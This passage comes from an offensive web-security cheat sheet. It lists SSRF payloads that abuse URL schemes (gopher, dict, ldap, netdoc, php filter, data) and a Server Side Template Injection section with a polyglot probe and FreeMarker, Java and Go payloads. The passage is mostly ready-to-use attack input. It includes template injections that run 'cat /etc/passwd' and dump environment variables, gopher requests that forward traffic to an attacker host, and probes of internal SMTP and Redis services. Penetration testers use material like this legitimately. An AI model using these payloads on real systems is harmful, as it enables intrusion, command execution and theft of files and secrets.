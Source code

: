 	sftp://securityidiots.com:11111/

TFTP: hitting the internal TFTP service which is behind NAT
	
	tftp://securityidiots.com:12346/lol.xml

DICT : could also be used to make requests to internal services
	
	dict://ip:22/_XXX
	
	dict://ip:6379/_XXX

NETDOC: This could be used as an alternative to file in JAVA based Servers.
	
	netdoc:/etc/passwd

LDAP: could be used to query internal LDAP Service.
	
	ldap://localhost:11211/%0astats%0aquit

GOPHER:
	
	gopher://<host>:<port>/_<gopher-path>

	gopher://<host>:25/%0AHELO ... (executing commands on internal SMTP Service)

Making internal HTTP Requests(GET,POST..etc):

	gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
	
	gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body

PHP: if PHP is installed we can use PHP Wrappers to read PHP source codes as Base64 content.
	
	php://filter/convert.base64-encode/resource=index.php

Data:
	
	data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk
	
--------------------------------------------------------------------------------------------------------------
# Server Side Template Injection (SSTI)

## SSTI CheatSheet
### `Polyglot`
```python
${{<%[%'"}}%\
```

### `FreeMarker (Java)`
```java
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
### `Java`
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.html").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
### `Golang`
```go
{{ . }}
```